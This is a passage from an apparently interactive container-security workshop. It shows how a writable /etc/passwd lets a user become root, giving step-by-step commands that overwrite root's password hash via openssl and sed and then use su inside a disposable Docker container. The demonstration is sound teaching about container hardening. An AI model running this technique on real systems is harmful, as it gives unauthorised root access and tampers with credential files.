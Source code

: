 The reason that it is possible for a user to become `root` when `/etc/passwd` is writable, is that although passwords are now stored in `/etc/shadow`, they were once upon a time stored in `/etc/passwd`. That functionality hasn't actually been disabled in Linux. You can manually add a password hash to `/etc/passwd` and it will still be used for authenticating a user.

To show the consequences of this, start a container with an interactive shell:

```execute
docker run -it --rm greeting bash
```

In the container, make a copy of the `/etc/passwd` file.

```execute
cp /etc/passwd /tmp/passwd
```

Generate a hashed password value, where the value of the password is `secret`.

```execute
HASHED_PASSWORD=`openssl passwd -1 secret`
```

Update the `/etc/passwd` file to set this hashed password as that for the `root` user.

```execute
cat /tmp/passwd | sed "s%root:x%root:${HASHED_PASSWORD}%" > /etc/passwd
```

Having updated the `/etc/passwd` file now execute `su` to become `root`.

```execute
su root
```

You will be prompted for a password, enter:

```execute
secret
```

Verify what user you are by running:

```execute
id
```

The output should be:

```
uid=0(root) gid=0(root) groups=0(root)
```

indicating you are the `root` user inside of the container.

Stop the container by killing it.

```execute-2
docker kill `docker ps -ql`
```
